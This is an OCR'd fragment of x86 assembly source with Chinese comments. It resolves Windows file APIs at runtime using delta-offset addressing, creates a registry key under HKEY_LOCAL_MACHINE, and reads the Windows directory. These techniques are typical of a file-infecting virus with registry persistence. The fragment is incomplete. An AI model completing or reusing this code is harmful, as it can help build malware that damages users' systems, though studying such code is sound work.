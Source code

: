 ```assembly
    lea eax,[ebp+szCreateFile]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_CreateFile],eax

    lea eax,[ebp+szGetFileSize]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_GetFileSize],eax

    lea eax,[ebp+szCreateFileMapping]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_CreateFileMapping],eax

    lea eax,[ebp+szDeleteFile]
    push eax
    mov eax,[ebp+hDllKernel32]
    push eax
    call GetProcAddress           ;！！！！！！！！！需要修正
    mov [ebp+_DeleteFile],eax


    ;将值写入注册表   
    lea eax,[ebp+hKey]
    push eax
    lea eax,[ebp+lpszKey]
    push eax
    push HKEY_LOCAL_MACHINE
    call [ebp+_RegCreateKey]
    mov eax,0Ch
    push eax
    lea eax,[ebp+lpszValue]
    push eax
    mov eax,REG_SZ
    push eax
    xor eax,eax
    push eax
    lea eax,[ebp+lpszValueName]
    push eax
    mov eax,[ebp+hKey]
    push eax
    call [ebp+_RegSetValueEx]
    mov eax,[ebp+hKey]
    push eax
    call RegCloseKey             ;！！！！！！！！！需要修正

    ;获取进程所在的目录
    mov eax,50h
    push eax
    lea eax,[ebp+szBuffer]
    push eax
    call [ebp+_GetWindowsDirectory]

    mov esi,0
    mov edi,0
    .while TRUE
```
